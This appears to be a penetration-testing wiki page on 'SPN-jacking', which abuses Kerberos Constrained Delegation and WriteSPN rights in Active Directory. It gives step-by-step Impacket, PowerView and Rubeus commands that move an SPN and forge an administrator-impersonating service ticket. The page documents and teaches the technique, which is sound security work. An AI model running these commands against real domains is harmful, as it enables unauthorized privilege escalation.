 # SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md), as well as [Access Control abuse](../access-controls/). A a service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](ptt.md#modifying-the-spn), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad\_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite`, `WriteProperty` over it (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner object as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

{% hint style="info" %}
In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).

In this scenario (following [Elad](https://twitter.com/elad\_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):

* serverA is configured for KCD
* serverB's SPN is listed in serverA's KCD configuration
* serverC is the final target
* attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like machines, [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

_At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding the `tgssub.py` is pending._ [_The pull request_](https://github.com/SecureAuthCorp/impacket/pull/1184) _modifying the `findDelegation.py` is pending._

```python
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "DOMAIN"/"USER":"PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u 'domain\user' -p 'password' -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:password'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](ptt.md) to access the target.
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and  [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).



```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"domain" /user:"user" /password:"password"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](ptt.md) to access the target.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse" %}
